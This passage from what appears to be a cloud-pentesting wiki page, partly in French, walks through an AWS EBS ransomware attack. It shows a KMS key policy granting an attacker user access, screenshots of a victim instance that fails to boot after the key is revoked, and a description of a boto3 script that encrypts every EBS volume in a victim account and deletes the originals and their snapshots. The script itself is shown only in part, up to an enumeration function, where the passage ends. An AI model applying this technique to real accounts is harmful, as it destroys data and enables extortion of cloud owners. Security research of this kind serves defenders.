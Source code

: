 ```json
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": [
"kms:Encrypt",
"kms:Decrypt",
"kms:ReEncrypt*",
"kms:GenerateDataKey*",
"kms:DescribeKey"
],
"Resource": "*"
},
{
"Sid": "Allow attachment of persistent resources",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": ["kms:CreateGrant", "kms:ListGrants", "kms:RevokeGrant"],
"Resource": "*",
"Condition": {
"Bool": {
"kms:GrantIsForAWSResource": "true"
}
}
}
]
}
```
Wait a moment for the newly set key policy to propagate. Then return to the 'victim' account and attempt to attach one of the newly encrypted EBS volumes. You'll find that you can attach the volume.

![Pasted image 20231231174131](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/ba9e5340-7020-4af9-95cc-0e02267ced47) ![Pasted image 20231231174258](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/6c3215ec-4161-44e2-b1c1-e32f43ad0fa4)

But when you attempt to actually start the EC2 instance back up with the encrypted EBS volume it'll just fail and go from the 'pending' state back to the 'stopped' state forever since the attached EBS volume can't be decrypted using the key since the key policy no longer allows it.

![Pasted image 20231231174322](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/73456c22-0828-4da9-a737-e4d90fa3f514) ![Pasted image 20231231174352](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/4d83a90e-6fa9-4003-b904-a4ba7f5944d0)

Voici le script python utilisé. Il prend des identifiants AWS pour un compte 'victim' et une valeur ARN AWS publiquement disponible pour la key à utiliser pour le chiffrement. Le script va créer des copies chiffrées de TOUS les volumes EBS disponibles attachés à TOUTES les instances EC2 du compte AWS ciblé, puis arrêter chaque instance EC2, détacher les volumes EBS originaux, les supprimer, et enfin supprimer tous les snapshots utilisés pendant le processus. Cela laissera uniquement des volumes EBS chiffrés dans le compte 'victim' ciblé. N'UTILISEZ CE SCRIPT QUE DANS UN ENVIRONNEMENT DE TEST, IL EST DESTRUCTEUR ET SUPPRIMERA TOUS LES VOLUMES EBS ORIGINAUX. Vous pouvez les récupérer en utilisant la KMS key utilisée et les restaurer à leur état original via les snapshots, mais je tiens à vous informer qu'il s'agit, au bout du compte, d'un ransomware PoC.
```
import boto3
import argparse
from botocore.exceptions import ClientError

def enumerate_ec2_instances(ec2_client):
instances = ec2_client.describe_instances()
instance_volumes = {}
for reservation in instances['Reservations']:
for instance in reservation['Instances']:
instance_id = instance['InstanceId']
volumes = [vol['Ebs']['VolumeId'] for vol in instance['BlockDeviceMappings'] if 'Ebs' in vol]
instance_volumes[instance_id] = volumes
return instance_volumes
```